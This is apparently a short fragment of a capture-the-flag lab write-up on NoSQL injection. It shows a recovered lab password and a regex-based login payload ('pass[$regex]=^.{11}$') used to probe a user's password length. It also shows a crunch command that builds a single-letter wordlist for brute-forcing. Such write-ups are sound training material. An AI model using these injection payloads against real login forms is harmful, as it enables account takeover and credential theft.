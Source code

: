 ![password](/assets/img/posts/2025/03/nosql-injection/nosql-password.png)

**What is john's password?**  
R:`10584312`

**One of the users seems to be reusing his password for many services. Find which one and connect through SSH to retrieve the final flag!**  

{: .prompt-tip }
	Question Hint
	
	The user is the same as the answer for question 2 of task 5.

Payload para descobrir o comprimento:

`user=pedro&pass[$regex]=^.{11}$&remember=on`

Lista com todas as letras do alfabeto.

```shell
crunch 1 1 ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz >> numbers.txt
```

![crunch](/assets/img/posts/2025/03/nosql-injection/nosql-crunch.png)
